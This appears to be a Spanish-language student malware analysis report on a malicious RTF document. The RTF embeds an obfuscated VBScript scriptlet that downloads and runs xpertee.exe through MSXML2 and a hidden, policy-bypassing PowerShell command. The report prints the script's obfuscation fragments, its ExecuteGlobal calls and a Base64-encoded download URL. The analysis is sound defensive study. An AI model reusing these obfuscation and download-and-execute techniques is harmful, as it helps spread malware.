

xxxxx

xxxxxxxxxxxx

CANDIDATO EN PROCESO

xxxxxxxxxxxxxx


# **1. Información general de la muestra**

## **1.1 Identificación del fichero**
La muestra analizada corresponde al ejercicio `M9T6` y está formada por un documento con extensión .rtf cuyo nombre coincide con su hash SHA-256:
```
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf
```
Para identificar el tipo de fichero se utilizó el comando file:
```
file 9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf
```
El resultado obtenido fue:
```
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf: Rich Text Format data, version 1
```
El fichero es reconocido como un <mark>documento Rich Text Format data, version 1</mark>, por lo que inicialmente mantiene una estructura RTF válida. Este resultado orienta el análisis hacia herramientas específicas para documentos RTF/OLE, como rtfdump.py, rtfobj, oledump.py y utilidades de extracción de objetos embebidos.

La muestra M9T6 es un documento RTF válido que requiere análisis específico de su estructura interna y de posibles objetos embebidos. Los hashes calculados permiten identificarla de forma única, y las consultas externas sirven como apoyo para contrastar los resultados obtenidos posteriormente en el análisis estático y dinámico.


## **1.2 Hashes y footprinting**
Se calculan los hashes criptográficos de la muestra para identificarla de forma única y facilitar su trazabilidad durante el análisis:
| Algoritmo   | Hash                                                               |
| ----------- | ------------------------------------------------------------------ |
| **MD5**     | `3c8de25fcd3746a65314c0747f981aa7`                                 |
| **SHA-1**   | `c2c35b8e78b2afc44f9875126f79da2a5646717b`                         |
| **SHA-256** | `9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e` |

El hash SHA-256 coincide con el nombre del fichero, lo que permite correlacionar fácilmente la muestra con los resultados obtenidos durante el análisis estático, dinámico y las consultas en plataformas externas.

## **1.3 Consultas externas**
Como parte del reconocimiento inicial, se consultaron diferentes plataformas de análisis para obtener contexto adicional sobre la muestra, contrastar detecciones y comparar comportamientos observados.

- **Análisis con VirusTotal:** https://www.virustotal.com/gui/file/9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e

- **JoeSandBox:**
  - https://www.joesandbox.com/analysis/800663/0/html
  - https://www.joesandbox.com/analysis/800663/0/pdf
    

- **Vmray:** https://www.vmray.com/analyses/9da7d051bdf0/report/overview.html

- **Tria.ge:** https://tria.ge/260522-qmlf3scs8k/behavioral1

-------------

# **2. Análisis estático inicial**

## **2.1 Identificación del formato RTF**

Como primer paso se ha verificado el tipo real del fichero mediante la herramienta file, con el objetivo de confirmar si la extensión .rtf coincidía con el formato detectado por el sistema.
```
file 9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf
```
El resultado obtenido fue:
```
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf: Rich Text Format data, version 1
```

La herramienta identifica la muestra como un <mark>documento Rich Text Format data, version 1</mark>, lo que confirma que el fichero mantiene una estructura compatible con el formato RTF. Esta validación es importante porque permite orientar el análisis hacia herramientas especializadas en documentos RTF y objetos embebidos, como rtfdump.py, rtfobj y oledump.py.

El formato RTF es un formato basado en texto que utiliza palabras de control, grupos delimitados por llaves y secciones internas para representar el contenido del documento. Sin embargo, también permite incluir objetos embebidos, como objetos OLE, que pueden ser utilizados de forma legítima o abusados en documentos maliciosos. Por este motivo, que el fichero sea reconocido como RTF válido no implica que sea benigno.

En este caso, la identificación como RTF es coherente con el comportamiento esperado de la muestra M9T6, ya que posteriormente se localizaron objetos embebidos dentro del documento. Por tanto, esta primera comprobación sirve como punto de partida para inspeccionar la estructura interna del fichero y buscar elementos sospechosos.

La muestra M9T6 se identifica correctamente como un <mark>documento RTF versión 1</mark>. Esta característica justifica continuar el análisis con herramientas orientadas a RTF/OLE, ya que este tipo de documentos puede contener objetos embebidos, scripts, enlaces OLE u otros componentes utilizados como parte de una cadena de infección.


## **2.2 Análisis de metadatos con ExifTool**

Tras identificar la muestra como un documento RTF, se realizó una extracción de metadatos con ExifTool. El objetivo de este paso es obtener información básica del fichero, como tipo, tamaño, fechas internas, autor y posibles advertencias asociadas al formato.

El comando utilizado fue:
```
└─$ exiftool -a -u -g1 9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf > M9T6_eixftool.txt

---- ExifTool ----
ExifTool Version Number         : 13.50
Warning                         : Unspecified RTF encoding. Will assume Latin
---- System ----
File Name                       : 9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf
Directory                       : .
File Size                       : 264 kB
File Modification Date/Time     : 2020:11:11 12:09:38+01:00
File Access Date/Time           : 2026:05:25 16:16:22+02:00
File Inode Change Date/Time     : 2026:05:25 16:16:06+02:00
File Permissions                : -rw-rw-r--
---- File ----
File Type                       : RTF
File Type Extension             : rtf
MIME Type                       : text/rtf
---- RTF ----
Author                          : Cuenta Microsoft
Create Date                     : 2020:11:04 18:30:00
Author                          : Cuenta Microsoft
Modify Date                     : 2020:11:04 20:10:00
Last Printed                    : 0000:00:00 00:00:00
```

El análisis con ExifTool identifica esta muestra como un **documento RTF de 264 KB**. Los metadatos internos muestran como **autor “Cuenta Microsoft”, con fecha de creación el 04/11/2020 a las 18:30 y modificación el 04/11/2020 a las 20:10**. No se observaron metadatos ricos adicionales ni información directa sobre objetos embebidos. ExifTool mostró la advertencia **“Unspecified RTF encoding. Will assume Latin”**. Esta advertencia indica que el documento no declara explícitamente su codificación RTF, por lo que la herramienta asume codificación Latin. Este comportamiento no implica por sí solo que el documento sea malicioso, pero sí es relevante en el contexto de análisis, ya que las muestras RTF ofuscadas o generadas automáticamente pueden presentar estructuras incompletas, anómalas o poco limpias.

La información obtenida mediante ExifTool es limitada. Sin embargo, confirma el tipo de fichero, tamaño, fechas internas y metadatos básicos, que sirven como punto de partida para el análisis estático. Debido a que los documentos RTF maliciosos suelen contener objetos OLE, exploits u objetos ofuscados.

----

## **2.3 Inspección de estructura con rtfdump.py**
Una vez confirmada la naturaleza RTF de la muestra, se utilizó rtfdump.py para inspeccionar la estructura interna del documento. Esta herramienta permite visualizar los grupos RTF, localizar objetos embebidos, identificar bloques \object, analizar datos codificados en hexadecimal y detectar posibles zonas anómalas dentro del fichero.
```
└─$ python rtfdump.py ~/Escritorio/9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf > ~/Escritorio/rtfdump-didier.txt 
``` 

La salida inicial [rtfdump-didier.txt ](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/6-M9T6/utiles/rtfdump-didier.txt)muestra que el documento posee una entrada raíz \rtf1, lo que confirma que la muestra mantiene una estructura RTF parseable. También se observan secciones habituales en documentos RTF, como \fonttbl, \colortbl, \stylesheet, \generator, \info y \userprops.



Entre las entradas más relevantes se identificó la **entrada 77, correspondiente a un objeto embebido:**
```
77  Level 2  p=0000379a  l=59860  ...  O  \object
    Name: b'Package\x00:AbctfhgXgdghgh\x9e.scT'
    Size: 58352
    md5: 331c6ff42836efc5c6b3a6371f4c57da
    magic: 20e280a1
``` 

Este hallazgo es especialmente importante porque `rtfdump.py` identifica un **bloque `\object`** que contiene un objeto de tipo Package con un nombre asociado a un fichero `.scT`. El nombre `AbctfhgXgdghgh\x9e.scT` presenta características sospechosas: contiene una cadena aparentemente aleatoria, mezcla de mayúsculas y minúsculas, y un byte no imprimible `\x9e`. Además, el objeto tiene un tamaño considerable, `58.352 bytes`, y el hash `MD5 331c6ff42836efc5c6b3a6371f4c57da`, que posteriormente se correlaciona con el objeto extraído mediante `rtfobj`.

Justo debajo del objeto principal aparecen **subestructuras relacionadas con datos embebidos:**
```
78  Level 3  \*\objw1
79  Level 3  \pokedata
```

La presencia de **`\pokedata`** es relevante porque suele aparecer asociada a datos de objetos OLE embebidos dentro de documentos RTF. Esto refuerza la hipótesis de que el documento contiene un objeto incrustado que debe ser extraído y analizado por separado.

Otro punto importante de la salida es la existencia de una sección Remainder:
```
80  Remainder  p=00012171  l=189410
```

**El campo `Remainder`** indica que existe una cantidad significativa de datos al final del fichero que no queda integrada dentro de la estructura RTF principal parseada por la herramienta. En este caso, el remanente es de aproximadamente 189.410 bytes, un tamaño elevado en comparación con la parte principal interpretada del RTF. Este tipo de dato puede estar relacionado con contenido añadido, estructuras malformadas, objetos embebidos, datos ofuscados o técnicas destinadas a dificultar el análisis.


**Resumen de hallazgos con rtfdump.py:**
| Elemento               | Resultado                                       | Interpretación                                                        |
| ---------------------- | ----------------------------------------------- | --------------------------------------------------------------------- |
| Entrada raíz           | `\rtf1`                                         | El documento conserva estructura RTF válida.                          |
| Secciones estándar     | `\fonttbl`, `\colortbl`, `\stylesheet`, `\info` | Presencia de estructura documental normal.                            |
| Entrada sospechosa     | `77 \object`                                    | Objeto embebido dentro del RTF.                                       |
| Tipo/nombre del objeto | `Package\x00:AbctfhgXgdghgh\x9e.scT`            | Objeto Package asociado a un posible scriptlet `.scT`.                |
| Tamaño del objeto      | `58352 bytes`                                   | Tamaño suficiente para contener un script o payload.                  |
| MD5 del objeto         | `331c6ff42836efc5c6b3a6371f4c57da`              | Indicador útil para correlación posterior.                            |
| Subestructuras         | `\*\objw1`, `\pokedata`                         | Datos asociados a objeto OLE embebido.                                |
| Remainder              | `189410 bytes`                                  | Datos remanentes significativos fuera de la estructura RTF principal. |


**Conclusiones:** El análisis con `rtfdump.py` confirma que la muestra M9T6 no es un RTF simple. Aunque mantiene una estructura RTF válida, contiene un objeto embebido Package asociado a un fichero `.scT`, con nombre ofuscado y tamaño relevante. Además, la existencia de un `Remainder` de gran tamaño sugiere la presencia de datos adicionales o estructuras no interpretadas completamente por el parser. Estos hallazgos justifican continuar el análisis con rtfobj, con el objetivo de extraer los objetos OLE embebidos y analizar de forma independiente el fichero `.scT` identificado por `rtfdump.py`.


## **2.4 Extracción de objetos embebidos con rtfobj**

Tras localizar con rtfdump.py la presencia de un objeto \object sospechoso dentro del documento RTF, utilizamos `rtfobj`, herramienta incluida en `oletools`, para identificar y extraer los objetos OLE embebidos en la muestra. Este paso permite recuperar los artefactos internos del RTF y analizarlos de forma independiente.

El comando utilizado es:
```
mkdir -p ~/Escritorio/M9T6_rtfobj_extract

python -m oletools.rtfobj -s all -d ~/Escritorio/M9T6_rtfobj_extract "$FILE"  | tee ~/Escritorio/M9T6_rtfobj.txt
```

La opción `-s all` indica a `rtfobj` que seleccione todos los objetos detectados, mientras que `-d` permite especificar el directorio donde se guardarán los objetos extraídos. Obtenemos la salida en el fichero: [M9T6_rtfobj.txt](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/6-M9T6/utiles/M9T6_rtfobj.txt)


La herramienta identificó varios objetos dentro del documento. Los más relevantes fueron el **objeto #0, de tipo Package, y el objeto #1, identificado como OLE2LInk.** El resto de objetos aparecen como “Not a well-formed OLE object”, por lo que se consideran estructuras malformadas, relleno o datos residuales que no pudieron ser interpretados como objetos OLE válidos.

**La herramienta identificó varios objetos dentro del documento RTF. Los artefactos relevantes extraídos fueron:**
| Objeto   | Fichero extraído          | Descripción inicial                                    |
| -------- | ------------------------- | ------------------------------------------------------ |
| `#0`     | `..._AbctfhgXgdghgh_.scT` | Fichero `.scT` extraído desde un objeto `Package`.     |
| `#1`     | `..._object_000121CC.bin` | Objeto `OLE2Link` embebido.                            |
| `#2-#12` | varios `.raw`             | Datos raw o entradas no interpretadas como OLE válido. |


<mark>El resultado confirma que el documento RTF contiene objetos embebidos extraíbles, por lo que el análisis continúa con la revisión específica de cada objeto OLE identificado.</mark>


## **2.5 Objetos OLE identificados**
La ejecución de `rtfobj` permitió identificar varios objetos embebidos dentro del documento RTF. Los dos objetos relevantes para el análisis son el objeto `#0`, de tipo Package, y el objeto `#1`, de tipo OLE2LInk. El resto de entradas detectadas por la herramienta aparecen como objetos OLE no bien formados, por lo que se consideran artefactos residuales, estructuras malformadas o datos sin interpretación directa como OLE válido.

## **2.5.1 Objeto #0: Package**
El primer objeto identificado por rtfobj corresponde a un objeto OLE embebido de tipo Package:
```
id: 0
index: 00003855h
format_id: 2 (Embedded)
class name: b'Package'
data size: 29454
Filename: 'AbctfhgXgdghgh\x9e.scT'
Source path: 'C:\jsdsDggf\AbctfhgXGdghgh\x9e.scT'
Temp path: 'C:\kakepatH\Abctfhghgdghgh\x9e.scT'
MD5: 331c6ff42836efc5c6b3a6371f4c57da
EXECUTABLE FILE
File Type: Unknown file type
```

Este objeto es especialmente relevante porque contiene un fichero con extensión `.scT`, compatible con un Windows Script Component. El nombre del fichero, `AbctfhgXgdghgh\x9e.scT`, presenta rasgos sospechosos: cadena aparentemente aleatoria, mezcla de mayúsculas y minúsculas y presencia del byte no imprimible `\x9e`. Además, rtfobj lo marca como `EXECUTABLE FILE`, aunque el tipo exacto del fichero no es reconocido por la herramienta.

[El objeto fue extraído con el siguiente nombre:](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/6-M9T6/utiles/Abctfhghgdghgh%C5%BE.scT)
```
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_AbctfhgXgdghgh_.scT
```

El hash MD5 del fichero extraído es:
```
331c6ff42836efc5c6b3a6371f4c57da
```
Este valor coincide con el MD5 mostrado por `rtfdump.py` para el objeto Package, lo que confirma que ambos resultados hacen referencia al mismo artefacto embebido. `rtfdump.py` ya había localizado este objeto en la entrada 77 como `Package\x00:AbctfhgXgdghgh\x9e.scT`, con tamaño 58352 y el mismo hash MD5.

Desde el punto de vista funcional, este objeto es el componente más importante del análisis estático, ya que **contiene el scriptlet que posteriormente se identifica como VBScript ofuscado con lógica de descarga y ejecución.**


Este objeto resulta relevante porque **`rtfobj` lo identifica como `StdOleLink`, es decir, un objeto OLE de enlace embebido.** La propia herramienta lo marca como conocido por estar relacionado con vulnerabilidades utilizadas históricamente en documentos maliciosos, como **CVE-2017-0199, CVE-2017-8570, CVE-2017-8759 o CVE-2018-8174.**

[El objeto fue extraído como](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/6-M9T6/utiles/salida-rtfobj/9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000121CC.bin):
```
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000121CC.bin
```

Su hash MD5 es:
```
b95d048b6b05a9cb09d29d1b3a762da4
```

La presencia de este objeto refuerza la hipótesis de que el documento no solo contiene un fichero embebido, sino una estructura OLE preparada para activar o referenciar contenido asociado a scriptlets. En la correlación posterior de cadenas se observa además que este objeto contiene una referencia a `.SCT`, lo que lo vincula con el componente extraído en el objeto Package.

## **2.5.2 Objeto OLE2Link**
El segundo objeto relevante fue identificado como OLE2LInk:
```
id: 1
index: 000121CCh
format_id: 2 (Embedded)
class name: b'OLE2LInk'
data size: 2560
MD5: b95d048b6b05a9cb09d29d1b3a762da4
CLSID: 00000300-0000-0000-C000-000000000046
StdOleLink
```
Este objeto resulta relevante porque **rtfobj lo identifica como `StdOleLink`, es decir, un objeto OLE de enlace embebido.** La propia herramienta lo marca como conocido por estar relacionado con vulnerabilidades utilizadas históricamente en documentos maliciosos, como **CVE-2017-0199, CVE-2017-8570, CVE-2017-8759 o CVE-2018-8174.**

El objeto fue extraído como:
```
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000121CC.bin
```
Su hash MD5 es:
```
b95d048b6b05a9cb09d29d1b3a762da4
```
La presencia de este objeto refuerza la hipótesis de que **el documento no solo contiene un fichero embebido, sino una estructura OLE preparada para activar o referenciar contenido asociado a scriptlets. En la correlación posterior de cadenas se observa además que este objeto contiene una referencia a `.SCT`, lo que lo vincula con el componente extraído en el objeto Package.**


## **2.5.3 Objetos no bien formados**
A partir del objeto #2, rtfobj detectó varias entradas que no pudo interpretar como objetos OLE válidos:
```
2  |00013769h |Not a well-formed OLE object
3  |00013773h |Not a well-formed OLE object
4  |0001377Dh |Not a well-formed OLE object
...
12 |000137CDh |Not a well-formed OLE object
```

Estas entradas fueron extraídas como datos raw. En varios casos presentan el hash MD5:
```
d41d8cd98f00b204e9800998ecf8427e
```
Este valor corresponde a un contenido vacío, por lo que estos objetos no aportan inicialmente evidencias funcionales relevantes. No obstante, se conservaron durante la extracción para mantener la trazabilidad del análisis y evitar descartar artefactos antes de revisarlos.


## **2.5.4. Tabla resumen de objetos OLE**
| ID     |      Offset | Clase / tipo              |        Tamaño | MD5                                | Relevancia                                                                      |
| ------ | ----------: | ------------------------- | ------------: | ---------------------------------- | ------------------------------------------------------------------------------- |
| `0`    | `00003855h` | `Package`                 | `29454 bytes` | `331c6ff42836efc5c6b3a6371f4c57da` | Contiene el fichero `.scT` embebido. Marcado como `EXECUTABLE FILE`.            |
| `1`    | `000121CCh` | `OLE2LInk` / `StdOleLink` |  `2560 bytes` | `b95d048b6b05a9cb09d29d1b3a762da4` | Objeto OLE de enlace, relacionado por `rtfobj` con técnicas de explotación OLE. |
| `2-12` |      varios | No well-formed OLE object |             — | varios / vacío                     | Datos raw o estructuras no interpretables como OLE válido.                      |


## **2.5.5 Conclusiones**
Los objetos OLE identificados confirman que la muestra M9T6 contiene una estructura embebida maliciosa o altamente sospechosa. El objeto Package almacena un fichero .scT que posteriormente se asocia a un scriptlet VBScript ofuscado. El objeto OLE2LInk, por su parte, aporta una segunda evidencia de abuso de tecnología OLE dentro del RTF, y aparece clasificado por rtfobj como StdOleLink relacionado con familias de explotación conocidas.

Por tanto, el análisis de objetos OLE permite establecer que el documento RTF no es un simple señuelo, sino un contenedor de artefactos activos orientados a la ejecución de código y descarga de una segunda etapa.


# **3. Ofuscación y técnicas de desofuscación**
Tras identificar y extraer los objetos embebidos del documento RTF, se observa que la muestra M9T6 utiliza varias capas de ofuscación para dificultar el análisis estático. La funcionalidad maliciosa no aparece de forma directa en el documento, sino encapsulada dentro de objetos OLE y posteriormente ocultada mediante técnicas de codificación, fragmentación de cadenas y ejecución dinámica de código.

Ahora transformaremos el contenido extraído en información legible y correlacionable, de forma que sea posible reconstruir la lógica real del script embebido. Para ello se combinaron varias técnicas: extracción de objetos con rtfobj, búsqueda de cadenas con strings, filtrado mediante grep, análisis manual del script, decodificación de cadenas Base64 y revisión de cadenas recuperadas mediante herramientas auxiliares de desofuscación.

Durante este proceso se confirmó que el fichero .scT extraído no contiene un script limpio, sino un scriptlet VBScript ofuscado. El código utiliza nombres de variables aleatorios, cadenas partidas, comentarios irrelevantes y llamadas dinámicas mediante ExecuteGlobal. Estas técnicas impiden que una búsqueda simple de indicadores como PowerShell, WScript.Shell, CreateObject, http o DownloadFile recupere siempre la lógica completa de forma directa.

La desofuscación permitió reconstruir elementos clave de la muestra, entre ellos la URL remota, el nombre del payload, la ruta de escritura en %APPDATA%, los objetos COM utilizados y las dos ramas principales de descarga: una basada en MSXML2.XMLHTTP.3.0 y otra basada en PowerShell con System.Net.WebClient.

En conjunto, esta fase permite pasar de un conjunto de objetos embebidos y cadenas fragmentadas a una cadena funcional comprensible:
```
RTF malicioso
  → objeto OLE Package
  → fichero .scT embebido
  → scriptlet VBScript ofuscado
  → decodificación de cadenas Base64
  → conexión HTTP
  → descarga de xpertee.exe
  → escritura en %APPDATA%
  → ejecución mediante WScript.Shell / PowerShell
```

## **3.1 Técnicas de ofuscación observadas**
El análisis del script embebido permitió identificar varias técnicas de ofuscación utilizadas para ocultar su funcionalidad real y dificultar la detección por firmas estáticas.
| Técnica                     | Evidencia observada                                                     | Finalidad                                                            |
| --------------------------- | ----------------------------------------------------------------------- | -------------------------------------------------------------------- |
| Encapsulado en objeto OLE   | El script está embebido dentro de un objeto `Package` del RTF           | Ocultar el contenido malicioso dentro de la estructura del documento |
| Uso de extensión `.scT`     | El fichero extraído tiene extensión `.scT`                              | Utilizar un formato interpretable como Windows Script Component      |
| Nombre de fichero aleatorio | Nombre similar a `AbctfhgXgdghgh...scT`                                 | Dificultar identificación manual y análisis por patrones             |
| Caracteres no imprimibles   | Presencia de byte no ASCII en el nombre del fichero                     | Romper búsquedas simples o dificultar el tratamiento del nombre      |
| Concatenación de cadenas    | `"Create" + "Object"`, `"WSc" + "ript" + "." + "Shell"`                 | Evitar que indicadores aparezcan como cadenas literales completas    |
| Ejecución dinámica          | Uso repetido de `ExecuteGlobal(...)`                                    | Construir y ejecutar código en tiempo de ejecución                   |
| Codificación Base64         | URL y nombre del payload codificados                                    | Ocultar indicadores de red y nombres de fichero                      |
| Variables aleatorias        | Variables como `uqredvgyd`, `yulkytjtrhtjrkdsarjky`, `objhtxtpdownload` | Reducir la legibilidad del código                                    |
| Texto basura                | Frases irrelevantes y comentarios sin relación funcional                | Añadir ruido y dificultar el análisis manual                         |
| Duplicación de bloques      | Declaraciones y constantes repetidas                                    | Aumentar el volumen del script y distraer del flujo principal        |
| Comandos fragmentados       | Construcción parcial de `PowerShell`, `DownloadFile`, `Start-Process`   | Evadir búsquedas directas de comandos peligrosos                     |


Una de las técnicas más relevantes es la fragmentación de cadenas. En lugar de escribir directamente llamadas sensibles, el script las construye por partes. Por ejemplo:
```
"Create" + "Object"
"WSc" + "ript" + "." + "Shell"
"msxm" + "l2" + ".xml" + "http.3.0"
```

Esta técnica dificulta la detección basada en cadenas, ya que términos como CreateObject, WScript.Shell o MSXML2.XMLHTTP.3.0 pueden no aparecer de forma completa en el fichero original.

Otra técnica importante es el uso de ExecuteGlobal, que permite ejecutar código generado dinámicamente. Esto hace que parte de la lógica del script no pueda entenderse únicamente leyendo línea por línea, ya que muchas instrucciones se forman mediante concatenaciones y después se ejecutan en memoria.

También se observa el uso de Base64 para ocultar indicadores clave. Tras la decodificación se recuperan dos elementos fundamentales:
| Valor codificado                                               | Valor decodificado                                | Interpretación                   |
| -------------------------------------------------------------- | ------------------------------------------------- | -------------------------------- |
| `aHR0UDovL2VkZHlob2xkaW5nc2h1dHRsZS5jby56YS9pL3hwZXJ0ZWUuZXhl` | `hxxp://eddyholdingshuttle.co.za/i/xpertee[.]exe` | URL de descarga del payload      |
| `eHBlcnRlZS5leGU=`                                             | `xpertee[.]exe`                                   | Nombre del ejecutable descargado |

La combinación de estas técnicas permite ocultar la funcionalidad principal del script: descargar un ejecutable remoto, guardarlo en el sistema y lanzarlo mediante mecanismos de ejecución de Windows.

Conclusión:
La muestra M9T6 utiliza ofuscación estructural, textual y lógica. La ofuscación estructural se basa en ocultar el script dentro de un objeto OLE; la textual, en fragmentar cadenas, añadir ruido y codificar datos; y la lógica, en reconstruir instrucciones mediante ExecuteGlobal. Estas técnicas están orientadas a dificultar el análisis estático y retrasar la identificación de la cadena real de infección.

## **3.2 Encapsulado del script en objeto OLE**
Una de las técnicas de ocultación más relevantes observadas en la muestra M9T6 es el encapsulado del script dentro de un objeto OLE embebido. En lugar de incluir el código malicioso directamente como texto visible en el cuerpo del documento RTF, la muestra lo almacena dentro de la estructura interna del fichero, concretamente en un objeto de tipo Package.

Esta técnica obliga a realizar un análisis específico del formato RTF/OLE para recuperar el contenido real. Una búsqueda simple sobre el documento original puede no ser suficiente, ya que el componente activo se encuentra incrustado como objeto y no como texto plano accesible directamente.

El objeto Package actúa como contenedor del fichero .scT. Este fichero, una vez extraído, se identifica funcionalmente como un Windows Script Component con código VBScript ofuscado. Por tanto, el documento RTF funciona como vector inicial y el objeto OLE como mecanismo de transporte del script.

Además, la presencia de un objeto OLE2Link junto al objeto Package refuerza la hipótesis de abuso de funcionalidades OLE dentro del documento. Este tipo de estructura es habitual en documentos maliciosos que utilizan objetos embebidos o enlazados para activar código, cargar componentes externos o iniciar una cadena de infección.

En este caso, el encapsulado del .scT dentro del objeto OLE constituye una ofuscación estructural: el contenido malicioso no solo está ofuscado a nivel de código, sino también escondido dentro de una capa interna del formato RTF. Por ello, la extracción de objetos embebidos resulta imprescindible antes de analizar la lógica del script.

## **3.3 Concatenación de cadenas**
Otra técnica de ofuscación observada en el script embebido es la concatenación de cadenas. En lugar de escribir directamente nombres de funciones, objetos COM, comandos o rutas completas, el script divide las cadenas en fragmentos y las reconstruye en tiempo de ejecución.

Esta técnica dificulta el análisis estático porque muchas cadenas sospechosas no aparecen de forma literal en el fichero original. Por ejemplo, una búsqueda directa de términos como CreateObject, WScript.Shell, PowerShell, DownloadFile o Start-Process puede no detectar todas las referencias, ya que el script las construye parcialmente.

Ejemplos observados:
```
cvbnm = "Create" + "Object"
```

Otro ejemplo:
```
wss = "WSc"
wss = wss + "ript" + "." + "Sh"
ywrjjjjjjjjjjjjwty = wss + letters + "l"
```

En este caso, el script reconstruye dinámicamente la cadena:
```
WScript.Shell
```
También se observa la construcción fragmentada del objeto usado para comunicación HTTP:
```
uqredvgyd = "m" + "sxm" + "l2"
uqredvgyd = uqredvgyd + ".xml" + "http.3.0"
```
El resultado reconstruido es:
```
msxml2.xmlhttp.3.0
```
Este objeto COM permite realizar peticiones HTTP desde VBScript, por lo que su presencia es relevante dentro de la cadena de descarga.

La concatenación también aparece en la construcción del comando PowerShell. El script no escribe directamente PowerShell, DownloadFile o Start-Process, sino que los divide en fragmentos:
```
varf = "Pow" + "erS" + alls + " -NoP -sta -NonI -W Hid" + "den -Exe" + "cutionPolicy bypass -NoLogo -command ..."
```
De esta forma, el script reconstruye una orden equivalente a:
```
PowerShell -NoP -sta -NonI -W Hidden -ExecutionPolicy bypass -NoLogo -command ...
```

Esta línea contiene varias opciones relevantes:
| Fragmento reconstruido    | Significado                                        |
| ------------------------- | -------------------------------------------------- |
| `PowerShell`              | Intérprete utilizado para la descarga y ejecución. |
| `-NoP`                    | Evita cargar el perfil de PowerShell.              |
| `-NonI`                   | Ejecución no interactiva.                          |
| `-W Hidden`               | Oculta la ventana.                                 |
| `-ExecutionPolicy bypass` | Omite la política de ejecución local.              |
| `DownloadFile`            | Descarga el payload remoto.                        |
| `Start-Process`           | Ejecuta el fichero descargado.                     |


La concatenación de cadenas también se combina con ExecuteGlobal, lo que permite construir instrucciones de forma dinámica y ejecutarlas posteriormente. Por ejemplo:
```
ExecuteGlobal("Set objShell = Create" + "Object(""WScript.Shell"")")
```
Este patrón muestra claramente la intención de evitar que ciertas llamadas aparezcan de forma directa, pero al mismo tiempo permite al script reconstruirlas durante la ejecución.

En conclusión, la concatenación de cadenas es una técnica central en la ofuscación de M9T6. Permite ocultar objetos COM, comandos de ejecución, nombres de funciones y componentes de red, dificultando la detección basada en firmas simples. Al reconstruir estas cadenas, se evidencia que el script utiliza WScript.Shell, MSXML2.XMLHTTP.3.0 y PowerShell para descargar y ejecutar el payload remoto.

## **3.4 Uso de ExecuteGlobal**
Una de las técnicas más relevantes observadas en el script embebido es el uso intensivo de ExecuteGlobal. Esta función de VBScript permite ejecutar dinámicamente una cadena de texto como si fuera código dentro del contexto global del script.

En la muestra M9T6, ExecuteGlobal se utiliza para reconstruir y ejecutar instrucciones que previamente han sido divididas en fragmentos. Esto dificulta el análisis estático, ya que parte de la lógica real del script no aparece escrita de forma directa, sino generada en tiempo de ejecución.

Un ejemplo claro es la creación dinámica de objetos COM:
```
ExecuteGlobal("Set alxmd = " + cvbnm + "(""Msxml2.DOMDocument"").CreateElement(""aux"")")
```
En este caso, la variable cvbnm contiene la cadena reconstruida CreateObject, por lo que la instrucción ejecutada finalmente sería equivalente a crear un objeto Msxml2.DOMDocument. Este objeto se utiliza posteriormente para tratar datos codificados, especialmente cadenas Base64.

También se observa el uso de ExecuteGlobal para crear objetos relacionados con ejecución y manipulación del sistema:
```
ExecuteGlobal("Set wshShell = Create" + "Object( ""Wscript.Shell"" ) ")
...

ExecuteGlobal("Set objFSO = Create" + "Object( ""Scripting.FileSystemObject"" ) ")
```

Estas llamadas son relevantes porque WScript.Shell permite ejecutar comandos o procesos, mientras que Scripting.FileSystemObject permite comprobar, crear, escribir o eliminar ficheros.

El script también utiliza ExecuteGlobal para ejecutar instrucciones construidas previamente en variables. Por ejemplo:
```
tohan = "objS" + "hell.r" + "un " + "varf, 0, false"
ExecuteGlobal(tohan)
```

Esta secuencia reconstruye y ejecuta una llamada equivalente a:
```
objShell.run varf, 0, false
```

El parámetro 0 indica ejecución con ventana oculta, y false indica que el script no espera a que finalice el proceso lanzado. En este caso, varf contiene la línea de PowerShell encargada de descargar y ejecutar el payload.

El uso de ExecuteGlobal cumple varias funciones dentro de la ofuscación:
| Uso                              | Finalidad                                                                                                   |
| -------------------------------- | ----------------------------------------------------------------------------------------------------------- |
| Ejecutar código reconstruido     | Permite convertir cadenas generadas dinámicamente en instrucciones reales.                                  |
| Ocultar llamadas sensibles       | Evita que funciones como `CreateObject`, `WScript.Shell` o `PowerShell` aparezcan siempre de forma literal. |
| Dificultar el análisis estático  | La lógica final solo se entiende tras reconstruir las cadenas.                                              |
